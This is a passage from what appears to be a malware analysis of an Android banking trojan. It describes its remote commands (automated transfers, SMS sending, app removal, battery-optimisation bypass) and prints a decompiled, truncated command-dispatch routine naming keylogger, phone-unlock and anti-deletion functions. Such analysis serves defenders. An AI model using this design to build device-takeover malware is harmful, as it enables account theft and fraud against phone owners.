 stopAll: is used to reset/stop the ATS feature, stopping the in progress automation.

smsSend: used to send a text message to the specified phone number by the TAs

openPackage: used to open the specified app from the infected device.

removeApp: used to uninstall the specified app from the infected device

getDoze: used to check if the permissions to ignore battery optimization are enabled, and show the Android settings to disable them if they aren'st

ats: used to enable ATS attacks. It includes a JSON array with the different events/actions it should simulate to perform ATS (button clicks, etc.)


```cs
try {
            if(jSONObject1.has("command")) {
                aa.m();
                new StringBuilder().insert(0, "onApiRequestDone: ").append(jSONObject1).toString();
                String s = jSONObject1.getString("command");
                int v = s.hashCode();
                switch(v) {
                    case 0x8BD150FC: {
                        boolean z = s.equals("updateLib");
                        v1 = z ? 2 : -1;
                        break;
                    }
                    case 0x8FAEE23F: {
                        v1 = s.equals("stopAll") ? 8 : -1;
                        break;
                    }
                    case -1003888996: {
                        v1 = s.equals("openPackage") ? 4 : -1;
                        break;
                    }
                    case -875734902: {
                        v1 = s.equals("unlockPhone") ? 0 : -1;
                        break;
                    }
                    case 0xEA9E40DA: {
                        v1 = s.equals("deleteLib") ? 1 : -1;
                        break;
                    }
                    case -122979700: {
                        v1 = s.equals("enableKeyLogger") ? 9 : -1;
                        break;
                    }
                    case 0xFA4F7FCD: {
                        v1 = s.equals("AntiDelete") ? 5 : -1;
                        break;
                    }
                    case -75592340: {
                        v1 = s.equals("getDoze") ? 7 : -1;
                        break;
                    }
                    case 0x17AA0: {
                        v1 = s.equals("ats") ? 12 : -1;
                        break;
                    }
                    case 1097035112: {
                        v1 = s.equals("iWantA11") ? 6 : -1;
                        break;
                    }
                    case 1255329260: {
                        v1 = s.equals("makeSwipe") ? 3 : -1;
                        break;
```